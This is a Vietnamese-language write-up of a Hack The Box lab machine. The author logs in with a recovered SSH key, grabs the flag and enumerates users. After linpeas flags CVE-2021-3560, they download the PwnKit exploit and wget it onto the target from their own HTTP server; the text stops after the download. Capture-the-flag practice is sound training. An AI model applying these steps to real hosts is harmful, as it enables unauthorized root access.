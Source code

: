Ngon, giờ chỉ cần dùng key vào là done.
```zsh
❯ ll
total 4
-rw-rw-r-- 1 kali kali 3381 Nov 10  2021 id_rsa
                                                                                                                                                             
❯ chmod 600 id_rsa && ssh -i id_rsa ceil@inlanefreight.htb
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-90-generic x86_64)
```

Dễ dàng lấy được flag, nhưng tôi muốn nhiều hơn, tôi muốn lên root
```bash
ceil@NIXEASY:/tmp$ cat /home/flag/flag.txt 
HTB{7nrzise7hednrxihskjed7nzrgkweunj47zngrhdbkjhgdfbjkc7hgj}
```

```zsh
ceil@NIXEASY:~$ ls -la
total 36
drwxr-xr-x 4 ceil ceil 4096 Nov 10  2021 .
drwxr-xr-x 5 root root 4096 Nov 10  2021 ..
-rw------- 1 ceil ceil  294 Nov 10  2021 .bash_history
-rw-r--r-- 1 ceil ceil  220 Nov 10  2021 .bash_logout
-rw-r--r-- 1 ceil ceil 3771 Nov 10  2021 .bashrc
drwx------ 2 ceil ceil 4096 Nov 10  2021 .cache
-rw-r--r-- 1 ceil ceil  807 Nov 10  2021 .profile
drwx------ 2 ceil ceil 4096 Nov 10  2021 .ssh
-rw------- 1 ceil ceil  759 Nov 10  2021 .viminfo
ceil@NIXEASY:~$ sudo -l
[sudo] password for ceil: 
Sorry, user ceil may not run sudo on nixeasy.
```

Thử xem liệu có user nào khác không, và kết quả là `cry0l1t3`
```zsh
ceil@NIXEASY:~$ cat /etc/passwd | grep -v "nologin"
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
pollinate:x:110:1::/var/cache/pollinate:/bin/false
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
cry0l1t3:x:1001:1001:,,,:/home/cry0l1t3:/bin/bash
ceil:x:1000:1000:,,,:/home/ceil:/bin/bash
```

Thôi mình lười thì chạy `linpeas` cho nhanh.
**`Vulnerable to CVE-2021-3560`**

Tôi rất thích chơi với PwnKit, vì vậy đơn giản là:
Trên máy VM:
```zsh
❯ curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
                                                                                                                                                             
❯ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
```
Trên máy mục tiêu:
```zsh
ceil@NIXEASY:/tmp$ wget http://10.10.14.188:9999/PwnKit
--2025-03-31 09:57:15--  http://10.10.14.188:9999/PwnKit
Connecting to 10.10.14.188:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit                                  100%[============================================================================>]  17.62K  64.3KB/s    in 0.3s    

```